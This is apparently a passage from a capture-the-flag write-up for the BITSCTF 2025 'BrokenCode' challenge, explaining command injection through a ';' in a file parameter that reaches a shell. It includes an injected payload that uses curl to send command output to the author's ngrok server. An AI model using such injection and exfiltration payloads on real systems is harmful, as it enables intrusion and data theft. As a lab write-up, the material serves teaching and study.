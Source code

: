 
## 🔬 Vulnerability Analysis
### Potential Vulnerabilities
>- [x] RCE (Remote Command Execution)

# 🎯 Solution Path

## Exploitation Steps
### Initial setup
> As we saw from the `Initial Analysis`, the command is executed:
>
> ```bash
>  su - rruser -c "node ${execPath}"`
> ``` 
> 
> With the user `rruser`, which I later discovered to be `root` through the execution of the `id` command. By entering a path in the `flag` parameter and specifying `; command we want to execute`, `bash` will execute the command `su - rruser -c "node ; injected command"`. In fact, the `;` in bash is a command separator, allowing us to execute multiple commands inline by specifying them as `command1; command2...`. By doing this, I was able to achieve `RCE`. 
>
### Exploitation
>The exploitation was based on executing the command, but of course, the output was displayed on the server and I couldn't see it (the only thing visible was a screen with "Error" written on it). So, I decided to redirect the output to my `ngrok server`:
>
> ```bash
> ngrok http 8080
> ``` 
> 
> Once I started the server, I did a test with the injection by sending `/execute?file=;curl https://ngrok_link`, and I noticed that the request was indeed reaching me. So, I modified the payload by adding the command I wanted to execute (`cat flag.txt`) and then performed the URL encoding using CyberChef:
> 
> ![CyberChef URLEncode](/images/BITSCTF-2025/BrokenCode/cyberchef.png "CyberChef URLEncode")
> 